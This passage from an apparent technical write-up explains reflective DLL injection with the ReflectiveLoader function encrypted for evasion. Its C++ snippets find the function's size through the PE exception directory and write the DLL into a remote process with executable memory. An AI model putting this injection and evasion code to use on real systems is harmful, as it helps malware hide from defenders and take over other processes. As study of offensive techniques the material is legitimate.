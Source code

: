 The function above helps finding the **end RVA** of a function, given its begin 🙂 pretty straightforward and it does that parsing the entries of the IMAGE_DIRECTORY_ENTRY_EXCEPTION directory. 

Since the Exception directory does not keep the name of the function but only its begin and end, in order to find the one I was interested in, I have compared the begin address in the Exception table with the address of the ReflectiveLoader retrieved from the Export directory. 

Now it is possible to compute the actually size of the function: 

```cpp
/*--------CALCULATE THE OFFSET OF THE REFLECTIVE FUNCTION--------*/

PBYTE reflectiveLoaderFunc = (PBYTE)RetrieveFunctionRawPointer(pebase, EXPORTED_FUNC_NAME);
if (reflectiveLoaderFunc == NULL) {
    cout << "[-] Error while retrieving the RAW offset of the ReflectiveLoader function\n";
    return 1;
}
printf("[+] ReflectiveLoader function found at relative raw address: %p\n", reflectiveLoaderFunc);

/*------------FINDING FUNCTION SIZE FOR ENCRYPTION-----------------*/

PBYTE reflectiveLoaderFuncEnd = findFunctionEnd(pebase, reflectiveLoaderFunc);
SIZE_T rfSize = (reflectiveLoaderFuncEnd - reflectiveLoaderFunc);
printf("[+] Size of Reflective Function (bytes): %lu\n", rfSize);
```

Using a simple XOR function now it is possible to encrypt the bytes between *BeginAddress* and *EndAddress*. 

Little attention also at the function that writes the DLL in the remote process and the function that  place our HEADER before the PE: 

```cpp
PBYTE InjectDllRemoteProcess(int pid, size_t dllSize, PBYTE dllBuffer, HANDLE hProc, size_t funcSize) { 
    size_t bytesWritten = 0;
    //zoom in into this one in the next code block
    PBYTE dllBufferFinal = (PBYTE)addHeaderToBuffer(dllBuffer, dllSize, funcSize);
    PBYTE dllDestination = (PBYTE)VirtualAllocEx(hProc, NULL, dllSize + DLL_HEADER_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (dllDestination == NULL) {
        cout << "[-] Error while allocating memory in remote process, exiting ... " << endl;
        return NULL;
    }
    //everything will be shifted by DLL_HEADER_SIZE (16 bytes)
    if (WriteProcessMemory(hProc, dllDestination, dllBufferFinal, dllSize + DLL_HEADER_SIZE, &bytesWritten))
    {
        printf("[+] Successfully wrote DLL bytes + header at remote address: %p\n", dllDestination);
    }
    else {
        cout << "[-] Error while writing the DLL in the remote process, exiting ... " << endl;
        cerr << "[-] Win32 API Error: " + GetLastError() << endl;
        return NULL;
    }
    return dllDestination;
}
```
